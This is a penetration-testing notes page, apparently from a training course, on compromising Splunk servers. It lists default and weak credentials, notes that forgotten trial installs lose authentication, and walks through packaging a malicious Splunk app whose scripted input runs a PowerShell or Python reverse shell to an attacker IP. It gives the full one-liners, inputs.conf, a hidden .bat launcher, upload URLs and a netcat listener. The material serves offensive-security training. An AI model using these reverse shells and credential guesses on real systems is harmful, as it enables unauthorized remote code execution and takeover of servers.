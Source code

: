 # Splunk Attacks

* \
  Splunk web server runs by default on port 8000
  * works on https
* On older versions of Splunk, the default credentials are `admin:changeme`
  * If the default credentials do not work, it is worth checking for common weak passwords such as `admin`, `Welcome`, `Welcome1`, `Password123`, etc.

### Enumeration

* The Splunk Enterprise trial converts to a free version after 60 days, which doesn’t require authentication - It is not uncommon for system administrators to install a trial of Splunk to test it out, which is subsequently forgotten about. - This will automatically convert to the free version that does not have any form of authentication, introducing a security hole in the environment - Some organizations may opt for the free version due to budget constraints, not fully understanding the implications of having no user/role management.&#x20;

<figure><img src="../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Splunk has multiple ways of running code, such as
  * server-side Django applications
  * REST endpoints
  * scripted inputs
  * alerting scripts
* A common method of gaining remote code execution on a Splunk server is through the use of a scripted input

### Attacking Splunk

* We can use [this](https://github.com/0xjpuff/reverse_shell_splunk) Splunk package to assist us.
  * The `bin` directory in this repo has examples for [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) and [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1)
* The `bin` directory will contain any scripts that we intend to run (in this case, a PowerShell reverse shell), and the default directory will have our `inputs.conf` file
* &#x20;Our reverse shell will be a PowerShell one-liner.

```powershell-session
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

* The [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) file tells Splunk which script to run and any other conditions.
  * Here we set the app as enabled and tell Splunk to run the script every 10 seconds.
  * The interval is always in seconds, and the input (script) will only run if this setting is present.

```shell-session
cat inputs.conf 
```

```shell-session
[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

* We need the .bat file, which will run when the application is deployed and execute the PowerShell one-liner.

```shell-session
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

* Once the files are created, we can create a tarball or `.spl` file.

```shell-session
tar -cvzf updater.tar.gz splunk_shell/
```

* The next step is to choose `Install app from file` and upload the application.

```
https://10.129.201.50:8000/en-US/manager/search/apps/local
```

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Before uploading the malicious custom app, let's start a listener using Netcat or [socat](https://linux.die.net/man/1/socat).

```shell-session
 sudo nc -lnvp 443
```

* On the `Upload app` page, click on browse, choose the tarball we created earlier and click `Upload`.

```
https://10.129.201.50:8000/en-US/manager/appinstall/_upload?breadcrumbs=Settings%7C%2Fmanager%2Fsearch%2F%09Apps%7C%2Fmanager%2Fsearch%2Fapps%2Flocal
```

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* As soon as we upload the application, a reverse shell is received as the status of the application will automatically be switched to `Enabled`.
* If we were dealing with a **Linux host**, we would need to edit the `rev.py` Python script before creating the tarball and uploading the custom malicious app

```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```
